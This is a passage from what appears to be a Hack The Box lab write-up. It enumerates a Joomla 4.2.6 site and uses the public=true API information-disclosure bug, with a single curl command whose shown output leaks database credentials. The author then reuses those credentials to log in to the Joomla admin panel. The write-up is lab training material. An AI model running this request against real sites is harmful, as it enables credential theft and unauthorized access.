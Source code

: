 This subdomain is a lot more interesting. I see endpoints like `/adminsitrator`. Browsing there is a login page for Joomla. There is also a `/api` endpoint. Feroxbuster behaves rather strange here. It first scans very quickly, and then slows down to around 40~ requests per second. This is annoying, but it does give me quite a bit to work with already.

I check the [HackTricks page on Joomla]() to get some good jumping off points. I browse to `/administrator/manifests/files/joomla.xml` And am able to get some good info about the Joomla configuration. I see that it is running version 4.2.6. Checking for any public exploits for this version, I find [this blog post](https://vulncheck.com/blog/joomla-for-rce), which is for an RCE vuln in Joomla 4.0.0-4.2.7, meaning this version should be vulnerable.

Stunningly, this vulnerability is very simple. I simply `curl` a specific endpoint with the paramter `?public=true` which leaks the credentials for the MySQL database. I curl the endpoint and pipe it `jq` to make it easier to read, since the response is `json`.
```bash
┌──(kali㉿Kali)──[20:05:27]──[~/htb/Machines/Devvortex]
└─$ curl http://dev.devvortex.htb/api/index.php/v1/config/application?public=true | jq .
{
  "links": {
    "self": "http://dev.devvortex.htb/api/index.php/v1/config/application?public=true",
    "next": "http://dev.devvortex.htb/api/index.php/v1/config/application?public=true&page%5Boffset%5D=20&page%5Blimit%5D=20",
    "last": "http://dev.devvortex.htb/api/index.php/v1/config/application?public=true&page%5Boffset%5D=60&page%5Blimit%5D=20"
  },
  "data": [
<...SNIP...>
    {
      "type": "application",
      "id": "224",
      "attributes": {
        "user": "lewis",
        "id": 224
      }
    },
    {
      "type": "application",
      "id": "224",
      "attributes": {
        "password": "<REDACTED>",
        "id": 224
      }
    },
<...SNIP...>
  }
}
```
And right there in the output are credentials for the user `Lewis`. Because MySQL on port 3306 is not open, this might not have been too devastating, but the user reused these credentials for the Joomla admin account. I use these to log in at `/administrator` and now have access to the admin dashboard.
